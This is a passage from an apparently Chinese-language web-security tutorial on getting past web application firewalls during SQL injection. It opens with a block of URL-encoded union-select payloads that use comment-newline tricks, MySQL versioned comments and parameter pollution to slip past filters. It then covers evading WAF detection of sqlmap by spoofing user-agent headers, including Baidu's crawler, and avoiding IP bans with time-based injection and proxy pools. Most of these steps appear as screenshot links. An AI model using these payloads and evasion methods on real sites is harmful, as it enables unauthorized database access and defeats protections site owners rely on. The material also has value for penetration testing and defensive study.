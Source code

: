 ```
payload

%23==》url编码==》#
%0a==》url编码==》换行
%20==》url编码==》空格

%23x%0aunion%23x%0Aselect%201,2,3

%20union%20/*!44509select*/%201,2,3    /*!44509select*/：通过插入版本号（4.45.09），绕过检测机制
%20/*!44509union*/%23x%0aselect%201,2,3

id=1/**&id=-1%20union%20select%201,2,3%23*/				特殊符号

%20union%20all%23%0a%20select%201,2,3%23
```

**有时注入语句没有问题，但是就是注入进不去，可能WAF检测了注入工具**

- sqlmap发的包带了自己的工具头
- ![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMh9IHSN20CXepLia1GzCe7HzIJjeicpuac4cs9S4EQCvVFIrCbFwCFrGUQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)
- 判定方法一：WAF日志
- ![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMhT4dYEWANyibgUcut0HQ50GIJTeqzBKrPLuiaST4SnaYVYe6bwzOFwdYQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)
- 判定方法二：WAF防护规则
- ![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMhazHrKIyxfUY2zsqngZJW4ic8hNxYm0vJSvGuljkRE8AwU5OdKe6s1OQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)
- 判定方法三：抓包
- ![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMh6cibsYM0M7KFPQRribt4FBkTGNoAxPUVgbrI71dLHFXwCH3ob0o2icbvA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)
- 解决方法：
- 思路一：采用salmap的随机agent头方法
- ![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMhuYWpwKhHzz0MgvJ9f4DKCygeY9djEZN3Ad2bCMvnSH4Xo2ZrgEQjjw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)
- 思路二：采用搜索引擎的头
- ![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMhvKia5fuzsymbs0Hj2bX9O0ziaKw1xCdHWLR3mL4JXEeuqEKJ1GlBgaHA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)
- 指定采用百度的头
- ![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMhPXPPfoDGYwlOFfuS868j0HWSpxvuecojiahgF6iaDxbcwEX1YH0wRpOg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMhr9hzdXLjunsMs2mq7ecUvTDibKibTOmFL5LRfa3rYtRKkK03RiaRzqiaAw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

SQLMap说明



> 扩展一：有的WAF检测的是其他字段，可以使用burp抓包进行替换这个字段，来进行绕过。（只是修改一个） 扩展二：将注入语句生成txt文件，放在sqlmap目录下跑。（可以支持跑多个）

### 19.2 采用工具注入会被拉黑

- 解决方法一：采用延时注入
- ![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMhnKs6fVNOUH76g5oRhtpNh1o2be9VJraiaqNEr4icRol7aeyhqYiaqSFxQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)
- 解决方法二：采用代理池
